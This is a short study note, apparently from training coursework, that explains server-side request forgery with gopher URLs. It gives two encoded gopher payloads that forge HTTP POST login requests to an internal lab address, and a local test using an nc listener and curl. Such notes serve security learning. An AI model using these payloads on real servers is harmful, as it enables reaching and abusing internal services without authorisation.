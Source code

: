 ```yaml
---
tags:
- ssrf
- gopher
---
```


# SSRF with gopher

Curl  supports the Gopher protocol.  We can use Gopher URLs to create valid requests in several different protocols, including HTTP.

### application/x-www-form-urlencoded
```bash
gopher://10.10.10.3:80/_POST%20/login%20HTTP/1.1%0aContent-Type:%20application/x-www-form-urlencoded%0aContent-Length:%2041%0a%0ausername%3dwhite.rabbit%26password%3ddontbelate
```
![[Pasted image 20230523193615.png]]


### application json
```bash
gopher://10.10.10.3:80/_POST%20/login%20HTTP/1.1%0aContent-Length:%2051%0aContent-Type:%20application/json%0a%0a%7b%22username%22%3d%22white%2erabbit%22%2c%22password%22%3d%22dontbelate%22%7d
```

![[Pasted image 20230523193359.png]]
Test on local machine:
```bash
nc -nvlp 9000
```

```bash
curl gopher://127.0.0.1:9000/_POST%20/login%20HTTP/1.1%0aContent-Length:%2051%0aContent-Type:%20application/json%0a%0a%7b%22username%22%3d%22white%2erabbit%22%2c%22password%22%3d%22dontbelate%22%7d
```


```
💡 If we were to replicate this attack from curl or in the Repeater tool of Burp Suite, we would need to double encode any non-alphanumeric characters as well.
```
[[2023090518224444 SSRF with gopher#^13919b]]
## References
1. web200, p. 409
2. https://owasp.org/www-community/Double_Encoding ^13919b